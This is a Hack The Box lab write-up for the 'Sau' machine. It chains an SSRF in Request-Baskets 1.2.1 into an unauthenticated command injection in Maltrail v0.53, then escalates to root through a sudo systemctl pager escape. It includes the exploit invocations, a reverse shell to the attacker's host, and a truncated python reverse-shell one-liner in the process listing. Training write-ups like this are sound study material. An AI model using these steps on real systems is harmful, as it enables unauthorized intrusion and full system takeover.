


# Sau — Hack The Box Writeup

## Overview

| Field      | Value   |
| ---------- | ------- |
| Difficulty | Easy    |
| OS         | Linux   |
| Status     | Retired |

Sau is an easy machine featuring vulnerable web applications. Identified vulnerabilities allow us to uncover a second web application, and exploiting it provides initial access to the target system. Improper privilege assignment to  the user enables a privilege esacaltion vector.

## 1. Reconnaissance
### 1.1 Nmap Scan
Execution:
```bash
nmap -sC -sV --open -p- <TARGET-IP>
```
Result:
```bash
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  http    Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
```
Analysis:
- SSH and HTTP service (port 55555) were identified

Next:
- Proceed with web enumeration.
## 2. Enumeration
### 2.1 Web Enumeration
Execution:

Analysis:
- Detected Request-Baskets version 1.2.1
- The application allows creating custom HTTP endpoints ("baskets"), which suggests potential for misconfiguration or abuse.

Next:
- Looking for information and possible exploitation methods
## 3. Exploitation
### 3.1 Looking for Exploitation Methods - Request-Baskets
The Request-Baskets version 1.2.1 is vulnerable to CVE-2023-27163.
The exploit was adapted from a publicly available PoC demonstrating this vulnerability:
[CVE-2023-27163](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)

Explanation:

Request-Baskets is a web application that allows users to create custom HTTP endpoints called 'baskets', which collect and display incoming requests. The application supports forwarding incoming requests to another URL.
Due to improper validation of the forwarding configuration, an attacker can manipulate this feature to send requests to internal services. 
This results in a Server-Side Request Forgery (SSRF) vulnerability, allowing access to resources that are not directly exposed externally.

Execution:
```bash
bash exploit.sh http://<Target-IP>:55555 http://127.0.0.1:80
```
Result:



Analysis:
- Detected Maltrail Version v0.53

Next:
- Looking for information and exploitation methods of Maltrail v0.53
### 3.2 Looking for Exploitation Methods - Maltrail
Maltrail v0.53 is vulnerable to a command injection vulnerability.
This vulnerability allows remote command execution via the login functionality.
[Maltrail v0.53 exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

Explanation:
Maltrail is a network traffic analysis tool used to detect malicious activity.
The vulnerability exists due to improper sanitization of user input in the login functionality. Specifically, the username parameter is not properly validated, allowing an attacker to inject arbitrary system commands.
This results in unauthenticated remote command execution (RCE)

Execution:
```bash
python3 exploit.py <Kali-IP> <Listening Port> http://<Target-IP>:55555/ymszyv
```
Result:
```bash
whoami
puma
```
Analysis:
- Exploitation of this vulnerability provides a reverse shell
- Access to puma account on target host

Next:
- Perform Privilege Escalation
## 4. Perform Local Privilege Escalation
### 4.1 Checking Puma's privileges
Execution:
```bash
sudo -l
```
Result:
```bash
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Analysis:
- The user puma can execute '/usr/bin/systemctl status trail.service' with sudo privileges

Next:
- Investigate this privilege for potential escalation
### 4.2 Analyzing the systemctl status trail.service
Execution:
```bash
sudo /usr/bin/systemctl status trail.service
```
Result:
```bash
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2026-03-25 14:01:58 UTC; 17h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 881 (python3)
      Tasks: 23 (limit: 4662)
     Memory: 43.9M
     CGroup: /system.slice/trail.service
             ├─ 881 /usr/bin/python3 server.py
             ├─2608 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─2611 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─2614 sh
             ├─2615 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─2616 /bin/sh
             ├─2622 python3 -c import pty,os; pty.spawn("/bin/bash")
             ├─2623 /bin/bash
             ├─2661 sudo /usr/bin/systemctl status trail.service
             ├─2663 /usr/bin/systemctl status trail.service
             ├─2664 pager
             ├─2666 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─2667 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─2670 sh
```
Analysis:
- Sudo command allows us to check maltrail service status via systemctl
- The Maltrail service uses pager to display output
- A pager is a program used to display long text output in terminal
- In this case, the pager is 'less'
- The 'less' program allows execution of shell commands
- By using the '!' character inside 'less', it is possible to execute shell commands
- Since the command is executed with sudo, any shell spawned from `less` will run with elevated (root) privileges.

Next:
- Try to execute command with charcter '!' in less pager
### 4.3 Command Execute
Execution:
```bash
lines 1-23!
```
Result:
``` bash
!!
root@sau:/opt/maltrail# whoami
whoami
root
```
Analysis:
- After running the allowed command with sudo, the output is opened in 'less'. By executing '!' root shell is spawned.

